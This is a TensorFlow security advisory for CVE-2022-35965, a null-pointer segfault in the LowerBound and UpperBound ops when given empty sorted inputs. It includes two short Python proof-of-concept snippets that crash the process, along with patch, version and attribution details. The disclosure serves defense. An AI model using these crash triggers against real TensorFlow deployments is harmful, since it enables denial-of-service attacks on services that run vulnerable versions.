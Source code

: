 ## TFSA-2022-097: Segfault in `LowerBound` and `UpperBound`

### CVE Number
CVE-2022-35965

### Impact
If `LowerBound` or `UpperBound` is given an empty`sorted_inputs` input, it results in a `nullptr` dereference, leading to a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.int32
sorted_inputs = tf.constant([], shape=[10,0], dtype=tf.float32)
values = tf.constant([], shape=[10,10,0,10,0], dtype=tf.float32)
tf.raw_ops.LowerBound(sorted_inputs=sorted_inputs, values=values, out_type=out_type)
```
```python
import tensorflow as tf

out_type = tf.int64
sorted_inputs = tf.constant([], shape=[2,2,0,0,0,0,0,2], dtype=tf.float32)
values = tf.constant(0.372660398, shape=[2,4], dtype=tf.float32)
tf.raw_ops.UpperBound(sorted_inputs=sorted_inputs, values=values, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [bce3717eaef4f769019fd18e990464ca4a2efeea](https://github.com/tensorflow/tensorflow/commit/bce3717eaef4f769019fd18e990464ca4a2efeea).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.

